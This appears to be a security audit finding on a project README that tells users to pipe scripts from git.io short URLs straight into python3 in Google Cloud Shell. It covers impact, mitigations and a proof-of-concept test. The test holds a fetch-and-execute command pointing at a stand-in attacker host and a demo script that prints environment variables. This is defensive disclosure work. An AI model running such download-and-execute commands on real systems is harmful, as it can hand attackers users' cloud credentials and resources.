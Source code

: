 ## Combined Vulnerability List

### Short URL Redirection leading to Arbitrary Code Execution
- **Vulnerability Name:** Short URL Redirection leading to Arbitrary Code Execution
- **Description:**
    1. The project documentation in `README.md` instructs users to copy and paste commands into Google Cloud Shell to execute scripts.
    2. These commands use `git.io` short URLs to fetch the Python scripts. For example, for GWMME, the command is `python3 <(curl -s -S -L https://git.io/gwmme-create-service-account)`.
    3. An attacker could compromise the `git.io` short URLs (e.g., `https://git.io/gwmme-create-service-account`, `https://git.io/gwm-create-service-account`, `https://git.io/password-sync-create-service-account`). `git.io` is a URL shortening service managed by GitHub, but vulnerabilities or compromises are possible even for reputable services.
    4. If a short URL is compromised, the attacker can redirect it to a malicious Python script hosted at a different URL.
    5. When a user copies the command from the documentation and executes it in Google Cloud Shell, `curl` will follow the compromised short URL and download the malicious script.
    6. The output of `curl` (the malicious script) is then piped directly to `python3` for execution within the user's Google Cloud Shell environment.
    7. This leads to arbitrary code execution in the context of the user's Cloud Shell, with the permissions and access associated with their Google Cloud account and active Cloud Shell session.
- **Impact:**
    - Critical. Successful exploitation allows for arbitrary code execution within the victim's Google Cloud Shell environment.
    - An attacker could potentially gain full control over the victim's Google Cloud project, including access to resources, data, and services.
    - Depending on the permissions of the user and the attacker's script, the attacker could:
        - Steal sensitive data, including service account keys, OAuth tokens, and other credentials stored in the Cloud Shell environment or accessible through Google Cloud APIs.
        - Modify or delete Google Cloud resources.
        - Pivot to other Google Cloud services or on-premises networks connected to the Google Cloud environment.
        - Impersonate the user or service accounts to perform actions within Google Workspace or other connected systems.
- **Vulnerability Rank:** Critical
- **Currently implemented mitigations:**
    - None. The project currently relies on the security of the `git.io` URL shortening service and provides no mechanisms to verify the integrity or authenticity of the scripts being downloaded and executed.
- **Missing mitigations:**
    - **Remove Short URLs:** Replace `git.io` short URLs in the documentation with direct, full URLs to the raw Python scripts hosted in the GitHub repository. This makes it more transparent where the script is being downloaded from and reduces the risk of redirection through a compromised URL shortening service. Example: `https://raw.githubusercontent.com/google/create-service-account/main/code/gwmme_create_service_account.py`
    - **Implement Script Verification:** Add a mechanism to verify the integrity and authenticity of the downloaded scripts. This could be done by:
        - Providing checksums (e.g., SHA256) of the scripts in the documentation, allowing users to manually verify the downloaded script before execution.
        - Digitally signing the scripts (e.g., using GPG) and providing instructions for users to verify the signature before execution.
    - **Documentation Warning:** Include a clear warning in the documentation about the security risks of executing scripts downloaded from the internet, even from seemingly reputable sources. Advise users to:
        - Carefully review the script content before executing it.
        - Download the script and inspect it locally instead of directly piping it to `python3`.
        - Only use the official source repository and avoid using potentially modified or untrusted copies of the scripts.
- **Preconditions:**
    - An attacker must successfully compromise the `git.io` short URLs used in the project documentation.
    - A user must follow the official documentation and copy and paste the provided command into their Google Cloud Shell environment without verifying the destination URL or script content.
- **Source code analysis:**
    - The vulnerability is not directly within the Python scripts (`gwmme_create_service_account.py`, `gwm_create_service_account.py`, `password_sync_create_service_account.py`) themselves.
    - The vulnerability stems from the project's documentation (`README.md`) and the practice of using `git.io` short URLs to distribute these scripts.
    - In `README.md`, under the "Usage" sections for each tool (GWMME, GWM, Password Sync), the recommended commands are structured as:
      ```markdown
      python3 <(curl -s -S -L https://git.io/[SHORT_URL])
      ```
    - This command structure does the following:
        1. `curl -s -S -L https://git.io/[SHORT_URL]`: This part uses `curl` to fetch content from the `git.io` short URL.
            - `-s`:  Silent mode, don't show progress meter or error messages.
            - `-S`: Show error messages if they occur.
            - `-L`: Follow redirects. This is crucial as `git.io` URLs redirect to the actual raw script URLs on GitHub.
        2. `<(...)`: This is process substitution in Bash. It takes the output of the command inside the parentheses (in this case, the output of `curl`) and makes it available as a file for the command outside (in this case, `python3`).
        3. `python3 <(...)`: This executes the `python3` interpreter, and the `<(...)` part effectively feeds the downloaded script as standard input to the `python3` interpreter, causing it to execute the script directly from the internet without saving it to disk first.

    ```mermaid
    graph LR
        A[User reads README.md] --> B{Copies command with git.io URL};
        B --> C[Pastes command in Cloud Shell];
        C --> D{Cloud Shell executes command};
        D --> E{curl -s -S -L git.io/[SHORT_URL]};
        E --> F{Compromised git.io URL};
        F -- Redirects to malicious script --> G[Malicious Script hosted by Attacker];
        G --> H{curl downloads malicious script};
        H --> I{python3 <(...) executes malicious script};
        I --> J[Arbitrary code execution in Cloud Shell];
    ```

- **Security test case:**
    1. **Set up a malicious Python script:** Create a file named `malicious_script.py` with the following content:
        ```python
        #!/usr/bin/python3
        import os
        import sys

        print("WARNING: You are executing a malicious script!")
        print("This is a security test to demonstrate a vulnerability.")
        print("Current user:", os.getlogin())
        print("Current directory:", os.getcwd())
        print("Environment variables (first 5):")
        for key, value in list(os.environ.items())[:5]:
            print(f"  {key}={value}")

        # Optionally, attempt to perform a harmless but noticeable action
        # to further demonstrate code execution, e.g., create a file.
        try:
            with open("ATTACK_DEMO.txt", "w") as f:
                f.write("This file was created by a malicious script as part of a security test.")
            print("File 'ATTACK_DEMO.txt' created.")
        except Exception as e:
            print(f"Failed to create file: {e}")

        sys.exit(1) # Exit with an error code to be noticeable
        ```
    2. **Host the malicious script:** Make `malicious_script.py` accessible via a public URL. You can use a simple HTTP server (e.g., using `python -m http.server` and `ngrok` to expose it publicly) or a service like GitHub Gist (making sure to get the raw URL). Let's assume the malicious script is now accessible at `https://example.com/malicious_script.py`.
    3. **"Compromise" the short URL:**  Since we do not have control over `git.io`, we will simulate the compromise. For testing purposes, we will manually use the malicious URL instead of the `git.io` URL in the command. In a real attack scenario, an attacker would need to find a way to actually compromise the `git.io` redirection.
    4. **Follow the documentation steps for GWMME:** Refer to the "Google Workspace Migration for Microsoft Exchange (GWMME)" section in `README.md`.
    5. **Open Google Cloud Shell:** Open a new Google Cloud Shell session in your Google Cloud project.
    6. **Execute the modified command:** Instead of copying the command from the documentation, use a modified command that points to your malicious script URL:
        ```bash
        python3 <(curl -s -S -L https://example.com/malicious_script.py)
        ```
        Replace `https://example.com/malicious_script.py` with the actual URL where you hosted your `malicious_script.py`.
    7. **Observe the output:** Execute the command in Cloud Shell. Observe the output in the Cloud Shell terminal.
    8. **Verify successful execution of malicious script:**
        - You should see the warning message "WARNING: You are executing a malicious script!".
        - Information about the current user, directory, and environment variables should be printed, confirming the script executed in your Cloud Shell environment.
        - If the script successfully created the `ATTACK_DEMO.txt` file, you should see the "File 'ATTACK_DEMO.txt' created." message. You can then verify the file's existence using `ls`.
        - The command should exit with a non-zero exit code (1 in this case), which is also an indicator that the malicious script was executed as intended (as we explicitly set `sys.exit(1)` in the malicious script).